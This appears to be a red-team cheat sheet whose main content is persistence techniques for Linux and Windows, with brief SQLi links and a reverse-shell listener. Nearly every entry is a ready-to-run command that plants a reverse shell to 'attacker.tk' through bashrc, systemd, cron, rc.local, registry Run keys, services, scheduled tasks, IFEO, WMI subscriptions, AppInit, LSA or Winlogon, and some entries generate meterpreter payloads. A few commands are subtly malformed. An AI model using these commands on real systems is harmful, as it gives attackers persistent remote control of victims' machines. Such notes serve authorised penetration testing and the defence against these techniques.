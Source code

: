 # WEB

## SQLi

### Cheatsheets

* [PostSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
* [Swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
* [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

## XSS



## REVERSE
* rlwrap -cAr nc -lnvp PORT

# LATERAL

# PERSISTANT

## LINUX

* Autorun

    bash$> echo "nc attacker.tk 8888 ‐e /bin/bash 2>/dev/null &" >>~/.bashrc

* Service

    bash#> vim /etc/systemd/system/persistence.service
    bash$> vim ~/.config/systemd/user/persistence.service

    [Unit]
    Description=persistence
    [Service]
    ExecStart=/bin/bash ‐c 'bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1'
    Restart=always
    RestartSec=60
    [Install]
    WantedBy=default.target

    bash#> systemctl enable persistence.service
    bash#> systemctl start persistence.service
    bash$> systemctl ‐‐user enable persistence.service
    bash$> systemctl ‐‐user start persistence.service

* Tasks

    bash#> echo "* * * * * bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1" >>/var/spool/cron/root
    bash#> echo $'SHELL=/bin/bash\n* * * * * root bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1\n'> /etc/cron.d/pwn

* In MEMORY

    msfvenom ‐p linux/x86/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=8888 ‐f raw ‐o meter32.bin exitfunc=thread StagerRetryCount=999999
    bash$> inject_linux PID meter32.bin

* LD_PRELOAD

    bash#> echo /path/to/meter.so >> /etc/ld.so.preload
    bash#> echo export LD_PRELOAD=/path/to/meter.so >> /etc/profile
    bash$> echo export LD_PRELOAD=/path/to/meter.so >> ~/.bashrc

* rc.local

    bash#> echo "nc attacker.tk 8888 ‐e /bin/bash &" >> /etc/rc.local

## WINDOWS

* Autorun

    cmd$> copy meter.exe %APPDATA%\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\
    cmd$> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\users\username\meter.exe"
    cmd#> copy meter.exe C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\
    cmd#> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\Windows\system32\meter.exe"

* Service

    cmd#> sc create persistence binPath= "nc.exe ‐e \windows\system32\cmd.exe attacker.tk 8888" start= auto
    cmd#> sc failure persistence reset= 0 actions=restart/60000/restart/60000/restart/60000
    cmd#> sc start persistence

* Tasks

    cmd#> at 13:37 \temp\nc.exe ‐e \windows\system32\cmd.exe attacker.tk 8888
    cmd#> schtasks /create /ru SYSTEM /sc MINUTE /MO 1 /tn persistence /tr "c:\temp\nc.exe ‐e c:\windows\system32\cmd.exe attacker.tk 8888"

* In MEMORY

    msfvenom ‐p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=8888‐f raw ‐o meter32.bin exitfunc=thread StagerRetryCount=999999
    cmd$> inject_windows.exe PID meter32.bin

* Debugger

    cmd#> copy calc.exe _calc.exe
    cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\calc.exe" /v Debugger /t reg_sz /d "cmd /C _calc.exe & c:\windows\nc.exe ‐e c:\windows\system32\cmd.exeattacker.tk 8888" /f

* Gflags

    cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD/d 512
    cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
    cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "nc ‐e \windows\system32\cmd.exe attacker.tk 8888"

* WMI

    cmd#> wmic /NAMESPACE:"\\root\subscription" PATH __EventFilterCREATE Name="persistence", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
    cmd#> wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="persistence", ExecutablePath="C:\users\admin\meter.exe",CommandLineTemplate="C:\users\admin\meter.exe"
    cmd#> wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name="persistence"", Consumer="CommandLineEventConsumer.Name="persistence""

* AppInit

    cmd#> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t reg_dword /d 0x1 /f
    cmd#> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t reg_sz /d "c:\path\to\meter64.dll" /f
    cmd#> reg add "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t reg_dword /d 0x1 /f
    cmd#> reg add "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t reg_sz /d "c:\path\to\meter32.dll" /f

* Lsass

    cmd#> reg add "HKLM\system\currentcontrolset\control\lsa" /v"Notification Packages" /t reg_multi_sz /d "rassfm\0scecli\0meter" /f

* Winlogon

    cmd#> reg add "HKLM\software\microsoft\windows nt\currentversion\winlogon" /v UserInit /t reg_sz /d "c:\windows\system32\userinit.exe,c:\windows\meter.exe"

* Netsh

    cmd#> c:\windows\syswow64\netsh.exenetsh> add helper c:\windows\meter32.dll
    cmd#> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\Windows\SysWOW64\netsh.exe"

* Office

    cmd$> reg add "HKCU\Software\Microsoft\Office test\Special\Perf" /t REG_SZ /d C:\users\username\meter.dll

# LINKS

## MANUALS

* [Red Team Notes](https://dmcxblue.gitbook.io/red-team-notes-2-0/)
* [Hacktricks](https://book.hacktricks.xyz/)

